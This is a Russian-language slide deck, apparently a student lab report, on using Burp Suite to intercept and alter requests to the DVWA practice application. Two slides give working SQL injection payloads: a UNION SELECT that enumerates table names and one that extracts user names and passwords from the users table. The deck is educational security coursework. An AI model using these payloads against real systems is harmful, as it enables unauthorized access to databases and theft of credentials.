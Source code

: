 ```yaml
---
## Front matter
lang: ru-RU
title: Индивидуальный проект - этап 5
author: |
	 Бахи Сиди Али\inst{1}

institute: |
	\inst{1}Российский Университет Дружбы Народов

date: 18 марта, 2025, Москва, Россия

## Formatting
mainfont: PT Serif
romanfont: PT Serif
sansfont: PT Sans
monofont: PT Mono
toc: false
slide_level: 2
theme: metropolis
header-includes: 
 - \metroset{progressbar=frametitle,sectionpage=progressbar,numbering=fraction}
 - '\makeatletter'
 - '\beamer@ignorenonframefalse'
 - '\makeatother'
aspectratio: 43
section-titles: true

---
```


# Цели и задачи работы

## Цель лабораторной работы

Целью данной работы является изучение приложения BurpSuite.

# Процесс выполнения лабораторной работы

## Введение

**Burp Suite** – это набор инструментов для тестирования безопасности веб-приложений. Этот инструмент используется для обнаружения уязвимостей, анализа трафика и проведения различных атак на веб-приложения, таких как XSS, SQL-инъекции и другие.

Burp Suite используется специалистами по безопасности, пентестерами и исследователями для:

- Поиска и анализа уязвимостей веб-приложений.
- Перехвата и анализа сетевого трафика.
- Автоматизации атак на веб-приложения.
- Оценки уровня защиты приложений.

## Введение

**SQL-инъекции** – это тип уязвимости, который позволяет злоумышленникам выполнять произвольные SQL-запросы в базе данных через приложение. Это может привести к несанкционированному доступу к данным, их модификации или даже удалению.

SQL-инъекция возникает, когда приложение не корректно обрабатывает пользовательский ввод и включает его в SQL-запросы. Злоумышленники могут вставить (инъектировать) свои SQL-коды в вводимые данные, которые затем выполняются базой данных.

## Работа перехватчика запросов

![Перехваченные данные](image/01.png){ #fig:001 width=70% height=70% }

## Подмена данных в запросе

![Подмена запроса](image/02.png){ #fig:002 width=70% height=70% }

## Ответ от DVWA

![Реакция на подмену](image/03.png){ #fig:003 width=70% height=70% }

## Подмена данных в запросе

Теперь попробуем получить имена таблиц, для этого передадим такой запрос

```sql
1 OR 1=1 UNION SELECT \
NULL,TABLE_NAME FROM INFORMATION_SCHEMA.TABLES#
```
## Подмена данных в запросе

![Подмена запроса](image/04.png){ #fig:004 width=70% height=70% }

## Ответ от DVWA

![Реакция на подмену](image/05.png){ #fig:005 width=70% height=70% }

## Подмена данных в запросе

Попробуем получить данные пользователей из таблицы users.

```sql
1 OR 1=1 UNION SELECT USER,PASSWORD FROM users#
```

## Подмена данных в запросе

![Подмена запроса](image/06.png){ #fig:006 width=70% height=70% }

## Ответ от DVWA

![Реакция на подмену](image/07.png){ #fig:007 width=70% height=70% }

# Выводы по проделанной работе

## Вывод

Мы изучили возможности BurpSuite.